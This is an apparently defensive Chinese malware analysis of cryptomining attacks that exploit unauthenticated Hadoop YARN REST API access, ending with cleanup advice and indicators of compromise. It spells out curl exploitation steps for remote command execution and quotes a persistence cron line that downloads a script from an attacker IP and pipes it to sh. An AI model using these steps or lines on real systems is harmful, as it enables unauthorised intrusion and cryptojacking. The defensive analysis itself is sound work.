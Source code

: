 > 原文链接: https://www.anquanke.com//post/id/147208 


# Hadoop Yarn REST API未授权漏洞利用挖矿分析


                                阅读量   
                                **98089**
                            
                        |
                        
                                                                                    



[![](https://p4.ssl.qhimg.com/t0172e1f4d53d84d1a1.jpg)](https://p4.ssl.qhimg.com/t0172e1f4d53d84d1a1.jpg)

Fooying@云鼎实验室 2018/05/30



## 一、 背景

5月5日腾讯云安全曾针对“攻击者利用Hadoop Yarn资源管理系统REST API未授权漏洞对服务器进行攻击，攻击者可以在未授权的情况下远程执行代码”的安全问题进行预警，在预警的前后我们曾多次捕获相关的攻击案例，其中就包含利用该问题进行挖矿，我们针对其中一个案例进行分析并提供响应的安全建议和解决方案。



## 二、 漏洞说明

Hadoop是一个由Apache基金会所开发的分布式系统基础架构，YARN是hadoop系统上的资源统一管理平台，其主要作用是实现集群资源的统一管理和调度，可以把MapReduce计算框架作为一个应用程序运行在YARN系统之上，通过YARN来管理资源。简单的说，用户可以向YARN提交特定应用程序进行执行，其中就允许执行相关包含系统命令。<br>
YARN提供有默认开放在8088和8090的REST API（默认前者）允许用户直接通过API进行相关的应用创建、任务提交执行等操作，如果配置不当，REST API将会开放在公网导致未授权访问的问题，那么任何黑客则就均可利用其进行远程命令执行，从而进行挖矿等行为。<br>**攻击步骤：**
<li>申请新的application<br>
直接通过curl进行POST请求<br>
curl -v -X POST ‘[http://ip:8088/ws/v1/cluster/apps/new-application](http://ip:8088/ws/v1/cluster/apps/new-application)‘<br>
返回内容类似于：<br>[![](https://p1.ssl.qhimg.com/t01ad2ca6844e3851c4.jpg)](https://p1.ssl.qhimg.com/t01ad2ca6844e3851c4.jpg)
</li>
构造并提交任务<br>
构造json文件1.json，内容如下，其中application-id对应上面得到的id，命令内容为尝试在/var/tmp目录下创建11112222_test_111122222文件，内容也为111：<br>[![](https://p0.ssl.qhimg.com/t010a45a1a91f804aed.jpg)](https://p0.ssl.qhimg.com/t010a45a1a91f804aed.jpg)<br>
然后直接<br>
curl -s -i -X POST -H ‘Accept: application/json’ -H ‘Content-Type: application/json’ [http://ip:8088/ws/v1/cluster/apps](http://ip:8088/ws/v1/cluster/apps) —data-binary [@1](https://github.com/1).json<br>
即可完成攻击，命令被执行，在相应目录下可以看到生成了对应文件<br>[![](https://p4.ssl.qhimg.com/t0188186027bfadcd1c.png)](https://p4.ssl.qhimg.com/t0188186027bfadcd1c.png)<br>
更多漏洞详情可以参考 [http://bbs.qcloud.com/thread-50090-1-1.html](http://bbs.qcloud.com/thread-50090-1-1.html)



## 三、 入侵分析

在本次分析的案例中，受害机器部署有Hadoop YARN，并且存在未授权访问的安全问题，黑客直接利用开放在8088的REST API提交执行命令，来实现在服务器内下载执行.sh脚本，从而再进一步下载启动挖矿程序达到挖矿的目的。<br>[![](https://p3.ssl.qhimg.com/t01ed2fffed22dc6e6a.png)](https://p3.ssl.qhimg.com/t01ed2fffed22dc6e6a.png)<br>
整个利用过程相对比较简单，通过捕捉Hadoop 的launch_container.sh执行脚本，我们可以看到其中一个案例中相关任务执行的命令：<br>[![](https://p5.ssl.qhimg.com/t0107bbc9ed15a005dc.jpg)](https://p5.ssl.qhimg.com/t0107bbc9ed15a005dc.jpg)<br>
可以很明显的看到第8行位置，从185.222.210.59下载并执行了一个名为x_wcr.sh的脚本。<br>
在实际过程中，我们从多个案例捕获了多个比如名为cr.sh的不同脚本，但实际的功能代码都差不多，我们对其中一个x_wcr.sh脚本进行分析，代码自上而下内容：<br>[![](https://p2.ssl.qhimg.com/t01ee6b5db5278055c6.jpg)](https://p2.ssl.qhimg.com/t01ee6b5db5278055c6.jpg)<br>
这部分代码主要针对已存在的挖矿进程、文件进行清理。<br>[![](https://p0.ssl.qhimg.com/t014e33b8281e729426.jpg)](https://p0.ssl.qhimg.com/t014e33b8281e729426.jpg)<br>
这部分的代码主要是判断如果/tmp/java是一个存在并且可写的文件，那么就判断其MD5值是否匹配，MD5不匹配则根据w.conf关键词查找并kill进程；如果非可写的文件，则重新赋值DIR变量，这个变量主要用于后面部分代码中下载挖矿等程序存放目录。<br>[![](https://p2.ssl.qhimg.com/t01627084f0ca557c77.jpg)](https://p2.ssl.qhimg.com/t01627084f0ca557c77.jpg)<br>
然后接着是一些变量的赋值，包括再次判断如果/tmp/java是一个目录，则重新赋值DIR变量；判断curl和wget命令是否存在，存在则赋值到WGET变量；f2则是赋值为某个IP，实则为是后续下载相关文件的服务器之一。<br>[![](https://p4.ssl.qhimg.com/t0181e8e0a60e12284d.jpg)](https://p4.ssl.qhimg.com/t0181e8e0a60e12284d.jpg)<br>
这部分代码是其中比较核心的代码，通过downloadIfNeed方法下载挖矿程序到$DIR目录下并重命名为java，下载w.conf配置文件，给挖矿程序增加执行权限，然后以nohup命令后台运行挖矿程序并删除配置文件；接着检查crontab中的任务，如果不存在对应的任务，就将下载执行脚本的任务” * $LDR [http://185.222.210.59/cr.sh](http://185.222.210.59/cr.sh) | sh &gt; /dev/null 2&gt;&amp;1”添加到其中,这里$LDR为wget -q -O -或者curl，任务每分钟执行一次。<br>
脚本中还包含了几个嵌套调用的download方法，入口方法是downloadIfNeed：<br>[![](https://p2.ssl.qhimg.com/t012e81ba56887fe935.jpg)](https://p2.ssl.qhimg.com/t012e81ba56887fe935.jpg)<br>[![](https://p2.ssl.qhimg.com/t01d3f345896e4bf00f.jpg)](https://p2.ssl.qhimg.com/t01d3f345896e4bf00f.jpg)<br>
这个方法的核心功能还是校验已存在的挖矿程序的MD5，如果无法验证或者文件不存在的情况，则直接调用download方法下载挖矿程序；如果文件存在但MD5匹配不正确，则调用download方法后再次验证，验证失败则尝试从另外一个下载渠道[https://transfer.sh/WoGXx/zzz](https://transfer.sh/WoGXx/zzz) 下载挖矿程序并再次验证。最后还将相关结果上报到目标服务器$f2的re.php.<br>
tmp.txt内容示例：<br>[![](https://p2.ssl.qhimg.com/t010a9960d82356fc33.png)](https://p2.ssl.qhimg.com/t010a9960d82356fc33.png)<br>[![](https://p3.ssl.qhimg.com/t015955ac16f853616b.jpg)](https://p3.ssl.qhimg.com/t015955ac16f853616b.jpg)<br>
download方法判断ppc文件的存在与否和 MD5是否匹配，如果不存在或MD5不匹配则调用download2下载，如果存在则复制重名为java。<br>[![](https://p5.ssl.qhimg.com/t0130ec498bda5663d4.jpg)](https://p5.ssl.qhimg.com/t0130ec498bda5663d4.jpg)<br>
在脚本的最后部分还有一些进程、文件、crontab清理的处理，用pkill删除满足条件的进程，删除tmp目录下pscd开头的文件，以及说删除crontab中存在某些关键词的任务。

至此，我们完成整个脚本的分析，虽然整个脚本比较冗长，而且似乎各个函数嵌套调用，涉及文件也众多，但其实整体就做了以下几件事：
1. 清理相关的进程、文件和crontab任务
1. 判断并下载挖矿程序，同时校验MD5值，除了黑客自己控制的服务器，还利用[https://transfer.sh](https://transfer.sh) 提供备用下载，多种方式保障
增加脚本下载执行任务添加到crontab里<br>
其实，我们通过查看YARN的日志文件yarn-root-nodemanager-master.hadoop.log也可能看到相应的痕迹：<br>[![](https://p1.ssl.qhimg.com/t0111c18c73c3991b16.png)](https://p1.ssl.qhimg.com/t0111c18c73c3991b16.png)<br>[![](https://p3.ssl.qhimg.com/t01ec3277aba6ded1bb.png)](https://p3.ssl.qhimg.com/t01ec3277aba6ded1bb.png)<br>
或者我们通过管理UI查看application详情：<br>[![](https://p1.ssl.qhimg.com/t010ca0d81a40898a5d.png)](https://p1.ssl.qhimg.com/t010ca0d81a40898a5d.png)<br>
而crontab的任务日志也能看到相关的执行记录：<br>[![](https://p4.ssl.qhimg.com/t01daf2b6f5889396eb.png)](https://p4.ssl.qhimg.com/t01daf2b6f5889396eb.png)<br>
最终在/var/tmp目录下也能找到相关的文件<br>[![](https://p0.ssl.qhimg.com/t0184fb0ec7fae862d9.png)](https://p0.ssl.qhimg.com/t0184fb0ec7fae862d9.png)

## 四、 安全建议

**清理病毒**
1. 使用top查看进程，kill掉异常进程
1. 检查/tmp和/var/tmp目录，删除java、ppc、w.conf等异常文件
1. 检查crontab任务列表，删除异常任务
<li>排查YARN日志，确认异常的application，删除处理<br>**安全加固**
</li>
1. 通过iptables或者安全组配置访问策略，限制对8088等端口的访问
1. 如无必要，不要将接口开放在公网，改为本地或者内网调用
1. 升级Hadoop到2.x版本以上，并启用Kerberos认证功能，禁止匿名访问
1. 云镜当前已支持该漏洞检测，同时也支持挖矿木马的发现，建议安装云镜并开通专业版，及时发现漏洞并修复或者在中马后能及时收到提醒进行止损
更多自检和修复建议可以参考 [http://bbs.qcloud.com/thread-50090-1-1.html](http://bbs.qcloud.com/thread-50090-1-1.html)<a class="reference-link" name="**%E4%BA%94%E3%80%81%20IOCs"></a>



## 五、 IOCs

钱包地址**<br>
4AB31XZu3bKeUWtwGQ43ZadTKCfCzq3wra6yNbKdsucpRfgofJP3YwqDiTutrufk8D17D7xw1zPGyMspv8Lqwwg36V5chYg<br>
MD5
1. c8c1f2da51fbd0aea60e11a81236c9dc
1. 183664ceb9c4d7179d5345249f1ee0c4
<li>b00f4bbd82d2f5ec7c8152625684f853<br>**矿池地址**
</li>
1. 158.69.133.20:3333
1. 192.99.142.249:3333
1. 202.144.193.110:3333
<li>46.30.43.159:80<br>**部分相关URL**
</li>
1. [http://185.222.210.59/x_wcr.sh](http://185.222.210.59/x_wcr.sh)
1. [http://185.222.210.59/re.php](http://185.222.210.59/re.php)
1. [http://185.222.210.59/g.php](http://185.222.210.59/g.php)
1. [http://185.222.210.59/w.conf](http://185.222.210.59/w.conf)
1. [http://185.222.210.59/cr.sh](http://185.222.210.59/cr.sh)
1. [http://192.99.142.226:8220/w.conf](http://192.99.142.226:8220/w.conf)
1. [http://192.99.142.226:8220/xm64](http://192.99.142.226:8220/xm64)
1. [http://192.99.142.226:8220/cr.sh](http://192.99.142.226:8220/cr.sh)
1. [http://95.142.40.83/xm64](http://95.142.40.83/xm64)
1. [http://95.142.40.83/xm32](http://95.142.40.83/xm32)
1. [https://transfer.sh/1o3Kj/zzz](https://transfer.sh/1o3Kj/zzz)
1. [https://transfer.sh/wbl5H/pscf](https://transfer.sh/wbl5H/pscf)
1. [https://transfer.sh/WoGXx/zzz](https://transfer.sh/WoGXx/zzz)